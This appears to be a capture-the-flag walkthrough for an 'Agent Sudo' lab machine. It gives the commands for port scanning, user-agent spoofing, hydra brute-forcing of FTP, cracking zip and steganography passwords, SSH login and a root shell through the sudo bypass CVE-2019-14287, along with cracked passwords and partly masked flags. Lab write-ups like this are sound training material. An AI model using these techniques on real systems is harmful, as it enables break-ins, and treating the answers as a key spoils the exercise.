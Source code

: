 # Agent Sudo


- Deploy the machine

	  no answer needed

- How many open ports?

	- `nmap <TARGET_IP>`
	- `3`

- How you redirect yourself to a secret page?

	- `user-agent`

- What is the agent name?

	- Let's try changing the user-agent.
	- `curl -A "A" -L <TARGET_IP>`. Mmmmh...
	- `curl -A "C" -L <TARGET_IP>`. Got it.
	- `chris`

- FTP password

	- `hydra -l chris -P /usr/share/wordlists/rockyou.txt <TARGET_IP> -vV -t 4 ftp`
	- `crystal`

- steg password

	- `ftp <TARGET_IP>`
	- Enter username `chris` and password `crystal`.
	- `mget *`
	- By `ToAgentJ.txt` I can understand there is a pic that isn't a photo actually.
	- In fact, `binwalk -e cutie.png` extracts useful data.
	- `cd _cutie.png.extracted`
	- `zip2john 8702.zip > zip.hash`
	- `john zip.hash` and we get the password
	- `7z e zip.hash`, enter `Y` and the password.
	- `cat ToAgentR.txt`
	- Inserting that weird string into CyberChef (from Base64) we get `Area51`.
	- `Area51`

- Zip file password

	- `alien`

- Who is the other agent (in full name)?

	- `steghide info cute-alien.jpg`, enter `y` and the passphrase (`Area51`).
	- There is a message.txt inside
	- `steghide extract -sf cute-alien.jpg`
	- `james`

- SSH password

	- `hackerrules!`

- What is the user flag?

	- `ssh james@<TARGET_IP>` and then enter the password.
	- `cat user_flag.txt`
	- `b0**975e8******041**********13c7`

- What is the incident of the photo called?

	- Enable ssh on your machine
	- `scp Alien_autospy.jpg YOUR-USER-HERE@YOUR-IP-HERE:Alien_autospy.jpg`
	- Search that photo with Google Reverse Image.
	- `Roswell Alien Autopsy`

- CVE number for the escalation (Format: CVE-xxxx-xxxx)

	- `sudo -l`
	- `CVE-2019-14287` ([exploit-db](https://www.exploit-db.com/))

- What is the root flag?

	- `sudo -u \#$((0xffffffff)) /bin/bash`
	- `id`
	- `cat /root/root.txt`
	- `b53**2f55b57******3341**********`
	- `Deskel`



